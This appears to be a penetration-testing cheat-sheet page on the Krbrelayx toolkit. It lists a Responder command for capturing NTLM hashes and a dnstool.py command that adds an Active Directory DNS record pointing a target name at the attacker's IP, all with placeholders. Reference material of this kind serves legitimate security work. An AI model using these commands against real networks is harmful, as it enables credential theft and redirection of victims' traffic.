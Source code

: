 ```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Krbrelayx", "dnstools", "active driectory", "ad", "Windows", "dns"]
---
```


### Abuse #1: Add Active Directory Integrated DNS records via LDAP

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Capture NTLM hash
sudo responder -I tun0
```

```console
python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' --action add --record <TARGET_RECORD> --data <LOCAL_IP> <TARGET_IP>
```

</div>

<small>*Ref: [krbrelayx tools](https://github.com/dirkjanm/krbrelayx)*</small>

{{< /tabcontent >}}

<br>